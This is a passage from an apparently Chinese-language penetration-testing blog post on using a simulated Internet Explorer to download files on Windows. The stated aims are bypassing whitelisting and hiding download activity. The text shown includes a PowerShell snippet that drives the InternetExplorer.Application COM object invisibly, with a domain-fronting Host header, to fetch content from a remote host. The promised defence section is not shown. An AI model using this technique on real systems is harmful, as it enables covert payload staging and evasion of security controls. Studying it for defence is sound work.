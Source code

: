 ```yaml
---
layout: post
title: 渗透技巧——模拟IE浏览器下载文件
---
```



## 0x00 前言
---

在之前的文章[《渗透技巧——从github下载文件的多种方法》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8Egithub%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%84%E5%A4%9A%E7%A7%8D%E6%96%B9%E6%B3%95/)介绍了通过cmd从github下载文件的多种方法，选出最短的实现代码(长度为25)。

本文将站在另一角度，介绍Windows系统下模拟IE浏览器实现文件下载的方法。

模拟IE浏览器实现文件下载不仅能够绕过白名单程序的拦截，而且能在一定程度上隐藏下载行为。所以本文将站在利用的角度介绍具体的利用方法，结合利用方法总结防御思路。

## 0x01 简介
---
本文将要介绍以下内容：

- 模拟IE浏览器实现文件下载的多种方法
- 分析优缺点
- 总结防御思路

## 0x02 实现方法
---

由于方法众多，所以本文做了一个简单分类,整体上分为主动和被动两种模式。
主动模式代表通过命令主动实现文件下载，被动模式代表劫持用户行为，在用户打开IE时实现文件下载
其中，主动模式也要做一个区分，分为当前后台进程是否有IE浏览器进程iexplore.exe

具体方法如下：

### 1、主动模式

#### (1) 后台无IE进程

**a) 调用IE COM对象**

参考链接：

https://adapt-and-attack.com/2017/12/19/internetexplorer-application-for-c2/

通过COM对象`InternetExplorer.Application`实现文件下载，后台进程为iexplore.exe

powershell代码如下：

```
$ie_com = New-Object -ComObject InternetExplorer.Application
$ie_com.Silent = $True
$ie_com.Visible = $False
$Headers = "Host: <SNIP>.cloudfront.net`r`n"
$ie_com.Navigate2("http://192.168.62.131/index.html", 14, 0, $Null, $Headers)
while($ie_com.busy -eq $true) {
    Start-Sleep -Milliseconds 100
}
$html = $ie_com.document.GetType().InvokeMember('body', [System.Reflection.BindingFlags]::GetProperty, $Null, $ie_com.document, $Null).InnerHtml
$html
$ie_com.Quit();
```
